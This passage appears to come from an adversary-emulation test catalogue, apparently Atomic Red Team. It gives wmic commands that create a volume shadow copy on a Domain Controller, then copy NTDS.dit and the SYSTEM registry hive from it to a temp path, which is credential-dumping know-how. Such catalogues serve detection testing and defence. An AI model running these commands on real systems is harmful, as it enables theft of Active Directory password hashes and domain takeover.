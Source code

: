 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create "vssadmin.exe create shadow /for=#{drive_letter}"
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create "reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT"
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>

## Atomic Test #2 - Copy NTDS.dit from Volume Shadow Copy
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

This test requires steps taken in the test "Create Volume Shadow Copy with vssadmin".
A successful test also requires the export of the SYSTEM Registry hive.
This test must be executed on a Windows Domain Controller.

**Supported Platforms:** Windows




#### Inputs:
| Name         | Description                 | Type   | Default Value                                                       |
| ------------ | --------------------------- | ------ | ------------------------------------------------------------------- |
| vsc_name     | Name of Volume Shadow Copy  | String | &#92;&#92;?&#92;GLOBALROOT&#92;Device&#92;HarddiskVolumeShadowCopy1 |
| extract_path | Path for extracted NTDS.dit | Path   | C:&#92;Windows&#92;Temp                                             |
| DC_IP        | DC Address                  | String | 192.168.204.100                                                       |

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create "copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit"
wmic /node:#{DC_IP} process call create "copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE"
wmic /node:#{DC_IP} process call create "reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE"
```
